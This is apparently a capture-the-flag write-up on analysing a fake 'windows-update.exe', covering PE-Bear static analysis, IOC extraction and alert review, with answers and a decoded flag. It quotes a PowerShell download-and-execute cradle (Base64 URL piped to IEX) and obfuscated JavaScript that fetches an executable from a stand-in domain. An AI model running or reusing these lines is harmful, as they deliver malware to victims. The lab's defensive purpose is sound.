

# Shadow Trace

### Static & Dynamic Analysis of `windows-update.exe`

## Task

Analyze the binary located at `C:\Users\DFIRUser\Desktop\windows-update.exe` on the attached machine and answer the questions below. Several analysis tools are pre-installed on the machine under `C:\Users\DFIRUser\DFIR Tools`.

---

## Part 1: Static Analysis (PE-Bear)

### Q1: What is the architecture of the binary file `windows-update.exe`?

On the **File Header** tab in PE-Bear, we can see the Machine field shows `AMD64`, meaning it is 64-bit.



**Answer:** `64-bit (AMD64)`

---

### Q2: What is the hash (SHA-256) of the file `windows-update.exe`?

Alternatively, we can also find the file's hashes directly in the **General** tab of PE-Bear.

I used this simple `certutil` command to find the hash of the file (make sure to be in the Desktop folder in the command terminal, or give the full path to the exe file):

```powershell
certutil -hashfile "windows-update.exe" sha256
```

---

## Part 2: Identifying IOCs

### Q3: Identify the URL within the file to use as an IOC.

I loaded the exe file into PE-Bear, located at:

```
C:\Users\DFIRUser\DFIR Tools\Malware Analysis\PE-Bear
```

I then loaded the exe file using the **File → Load PEs** option in the toolbar.


In the **Strings** tab, I found the URL:


**Answer:** `http://tryhatme.com/update/security-update.exe`

---

### Q4: With the URL identified, can you spot a domain that can be used as an IOC?

Scrolling further down the strings list, I found this domain:

**Answer:** `responses.tryhatme.com`


---

### Q5: Input the decoded flag from the suspicious domain.

While checking the strings, I also found this string:

```
tryhatme.com/VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0=
```

The part after the slash looked like a Base64-encoded string, so I used CyberChef to decode it and retrieved the flag.

---

### Q6: What library related to socket communication is loaded by the binary?

For this, I moved to the **Imports** tab. In it, I found `WS2_32.dll` (Winsock2 — the Windows Sockets API), which provides the core functions for network communication.


**Answer:** `WS2_32.dll` (Winsock2)

---

## Part 3: Alert Analysis

### Q1: Can you identify the malicious URL from the alert triggered by `powershell.exe`?

This was the command executed by the `powershell.exe` process:

```powershell
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```

Decoding the embedded Base64 string using CyberChef revealed the malicious URL:

**Answer:** `https://tryhatme.com/dev/main.exe`

---

### Q2: Can you identify the malicious URL from the alert triggered by `chrome.exe`?

This command, executed by the `chrome.exe` process, contains JavaScript code:

```jsx
fetch([104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,100,97,116,101,46,101,120,101].map(c=>String.fromCharCode(c)).join('')).then(r=>r.blob()).then(b=>{const u=URL.createObjectURL(b);const a=document.createElement('a');a.href=u;a.download='test.txt';document.body.appendChild(a);a.click();a.remove();URL.revokeObjectURL(u);});
```

The array contains decimal ASCII values, and when passed through `.map(c=>String.fromCharCode(c)).join('')`, it reconstructs the URL.

To decode this, I used CyberChef with the recipe **From Decimal** (delimiter: Comma) on just the array values:

```
104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,100,97,116,101,46,101,120,101
```

and got this decoded URL:

**Answer:** `https://reallysecureupdate.tryhatme.com/update.exe`

---

### Q3: What's the name of the file saved in the alert triggered by `chrome.exe`?

From the same JavaScript command in Q2 — specifically the `a.download='test.txt'` portion — the file saved locally is:

**Answer:** `test.txt`

---

## Summary

| # | Finding |
| --- | --- |
| Binary | `windows-update.exe` |
| Architecture | 64-bit (AMD64) |
| Embedded malicious URL (static) | `http://tryhatme.com/update/security-update.exe` |
| Related C2 domain | `responses.tryhatme.com` |
| Decoded flag string | Base64 string `VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0=` found at `tryhatme.com/...` |
| Network library imported | `WS2_32.dll` (Winsock2) |
| PowerShell-delivered payload URL | `https://tryhatme.com/dev/main.exe` |
| Chrome-delivered payload URL | `https://reallysecureupdate.tryhatme.com/update.exe` |
| File dropped by Chrome alert | `test.txt` |

👋